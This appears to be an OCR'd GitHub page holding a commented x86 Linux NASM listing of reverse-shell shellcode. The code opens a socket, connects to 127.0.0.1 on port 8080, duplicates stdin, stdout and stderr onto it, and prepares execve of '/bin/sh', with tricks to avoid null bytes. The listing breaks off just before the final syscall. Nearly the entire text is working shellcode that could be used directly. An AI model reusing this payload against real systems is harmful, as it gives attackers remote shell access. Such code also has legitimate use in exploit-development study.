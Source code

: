 ```nasm
    mov bl, 1       ; SYS_SOCKET
    
    ; we are pushing on the stack our arguments
    push edx        ; IPPROTO_IP
    push byte 1     ; SOCK_STREAM
    push byte 2     ; AF_INET
    
    mov ecx, esp    ; the top of the stack points to a structure of 3 arguments
    int 0x80        ; syscall - result is stored in eax
    mov edi, eax    ; stores sockfd

; ret = connect(sockfd, (struct sockaddr *) &mysockaddr, sizeof(struct sockaddr_in));
; int socketcall(int call, unsigned long *args);
; #define __NR_socketcall   102
; #define SYS_CONNECT       3
    
    push edx
    mov byte [esp], 0x7f    ; mysockaddr.sin_addr.s_addr = inet_addr("127.0.0.1"); //localhost
    mov byte [esp+3], 0x01  ; useful to avoid null bytes in the IP address

    push word 0x901f  ; mysockaddr.sin_port = htons(dstport); //8080
    push word 2     ; AF_INET
    mov ebx, esp    ; stores the address of mysockaddr
    push byte 16    ; length of mysockaddr
    push ebx        ; pointer to mysockaddr
    push edi        ; sockfd

    xor ebx, ebx    ; flushing registers
    mul ebx
    mov al, 102     ; __NR_socketcall
    mov bl, 3       ; SYS_CONNECT
    mov ecx, esp    ; pointer to the args for socketcall
    int 0x80



; int dup2(int oldfd, int newfd); duplicates a file descriptor
; dup2(sockfd, 0); 
; dup2(sockfd, 1);
; dup2(sockfd, 2);
; #define __NR_dup2 63

    mov ebx, edi    ; sockfd as first argument
    xor ecx, ecx
    mov cl, 2       ; 2 for stderr / 1 for stdout / 0 for stdin
    xor eax, eax

dup2:
    mov al, 63      ; __NR_dup2
    int 0x80
    dec ecx
    jns dup2        ; jump short if not signed 

; execve("/bin/sh", NULL, NULL);
; #define __NR_execve 11

    xor eax,eax
    push eax
    push 0x68732f2f ; hs// - take care to the little endian representation
    push 0x6e69622f ; nib/
    mov ebx, esp    ; pointer to command string
    mov ecx, eax
    mov edx, eax
```